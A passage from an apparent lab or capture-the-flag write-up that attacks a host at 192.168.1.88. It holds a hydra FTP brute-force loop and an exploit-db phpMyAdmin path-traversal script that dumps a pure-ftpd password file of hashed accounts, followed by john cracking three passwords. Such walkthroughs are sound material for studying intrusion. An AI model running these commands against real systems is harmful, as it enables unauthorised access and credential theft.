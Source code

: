 We can also try to perform the brute-force attack on ftp users (see /etc/group)
and generate the short wordlist with john according username, but without
success, ftp connection is limited with the firewall:
{% codeblock lang:bash %}
root@kali32:~# for i in $(cat ftp-users); do echo $i > john-temp-wl ; john --wordlist="john-temp-wl" --rules --stdout > john-temp-wl-with-rules; hydra -l $i -P john-temp-wl-with-rules 192.168.1.88 ftp -V -t 1 -w 50; done
{% endcodeblock %}

After a while we found the hash list for ftp and used the john to crack it:
{% codeblock %}
root@kali32:/usr/share/exploitdb# perl platforms/php/webapps/1244.pl http://192.168.1.88 /phpMyAdmin/ ../../../../../../../../etc/pure-ftpd/pureftpd.passwd

cmahong:$1$vUW5q3t0$9RZSkReNoWGCaPtL7ixLX0:1031:2002::/home/cmahong/./::::::::::::
lnickerbacher:$1$yiEZKCE0$BOuvM8nrfoNGWAcjPenpa.:1031:2002::/home/lnickerbacher/./::::::::::::
jstreet:$1$sBGmOuB0$TPHx0jBSFjtJu7dJXb4Nw/:1031:2002::/home/jstreet/./::::::::::::
rwoo:$1$VZxDrE30$p7NPDTkxuQhPSsLpi2a1H1:1031:2002::/home/rwoo/./::::::::::::
cfinnerly:$1$dRGyIOy0$OVGBtLHyxFjPg7tmxtvHY/:1031:2002::/home/cfinnerly/./::::::::::::
kmccallum:$1$dijBzwn0$qlGcbcTT0Qyg8wQf4.QiG1:1031:2002::/home/kmccallum/./::::::::::::
cjalong:$1$FVj4if60$BWSIDiE97oTKUs70qOjZx/:1031:2002::/home/cjalong/./::::::::::::
jsmith:$1$yQKaOpR0$UdySwRtPd1upTckQ5/.CM/:1031:2002::/home/jsmith/./::::::::::::
lsanderson:$1$gzIP52U0$cL6XE61yDZD0unvIIkV8l/:1031:2002::/home/lsanderson/./::::::::::::
dhammond:$1$yK9OuzZ0$W7mgvS4SisxP1BwdLsuy1/:1031:2002::/home/dhammond/./::::::::::::
hmcknight:$1$A07SpdB0$hs/m8KyoJyY3gVAhlWDQI/:1031:2002::/home/hmcknight/./::::::::::::
lwestre:$1$.R5Dbl60$n2ajoJce/LnPVCq497sUQ.:1031:2002::/home/lwestre/./::::::::::::
gwelch:$1$/uYT22Y0$njR3vmLQrbnAugwkNLgJ5/:1031:2002::/home/gwelch/./::::::::::::
dmoran:$1$JZrJXdU0$ORe5.yRgQHCQl6h14rEEe.:1031:2002::/home/dmoran/./::::::::::::
dsummers:$1$VXo3pWp0$v0J7NsxRhDy/ufU01P/ch1:1031:2002::/home/dsummers/./::::::::::::
bzimmerman:$1$rQep6B90$ZtnoFZpTEBkNoRCfqJRpe/:1031:2002::/home/bzimmerman/./::::::::::::
amckinley:$1$45Bz0af0$Fsfo.XXcLkVzSaH5bLjzI0:1031:2002::/home/amckinley/./::::::::::::
ncobol:$1$q.xxgp70$645DFncdOFc24n93la5a70:1031:2002::/home/ncobol/./::::::::::::
ddypsky:$1$ccUhlpJ0$PO/WATKUekwaPct4zXeV9.:1031:2002::/home/ddypsky/./::::::::::::
rcropper:$1$Qhw2Vff0$QDvQMEe9CGFwVrvVUPqTz0:1031:2002::/home/rcropper/./::::::::::::
ddonnovan:$1$1z2APl80$uAyYFZLPu/WRkkpegD3Ht.:1031:2002::/home/ddonnovan/./::::::::::::
cbergey:$1$MOwY3Ie0$LcgARpcVk8Hf8n.E7itC40:1031:2002::/home/cbergey/./::::::::::::
tmartin:$1$3jpH7Yk0$2XmRv6acGEkBjmNQeyzUz.:1031:2002::/home/tmartin/./::::::::::::
jgacy:$1$b.0bYDi0$sSMXaRDSZu8YvWVz.wfCo0:1031:2002::/home/jgacy/./::::::::::::
splath:$1$jbdcsaj0$7uaXto3yRZWwDp5VEbJQV/:1031:2002::/home/splath/./::::::::::::
skrymple:$1$zjyNa1C0$x2JA4Tm61q3N0Fq06gXun1:1031:2002::/home/skrymple/./::::::::::::
evorhees:$1$ITHWZZd0$Qhs38Q7QpRTe./Npk25hu/:1031:2002::/home/evorhees/./::::::::::::
rfrost:$1$3Nqexaj0$eJv5nfOYM71jvlTEA1iv..:1031:2002::/home/rfrost/./::::::::::::
ahuxley:$1$ObpCAT60$LTqCcrqMGAgv8YMyva5Sr0:1031:2002::/home/ahuxley/./::::::::::::
cmanson:$1$gMHNCq70$RCOXC8pfElSRvh5BFc5fF0:1031:2002::/home/cmanson/./::::::::::::
webmaster:$1$v2tdHOX0$MnLOX4cXqZYL99QbDDZ/1/:1031:2002::/var/www/./::::::::::::
{% endcodeblock %}

{% codeblock %}
root@kali32:~# john hashes.john --wordlist="/usr/share/wordlists/rockyou.txt"  --rules
millionaire      (tmartin)
chatterbox1      (cbergey)
bravenewworld    (ahuxley)
{% endcodeblock %}
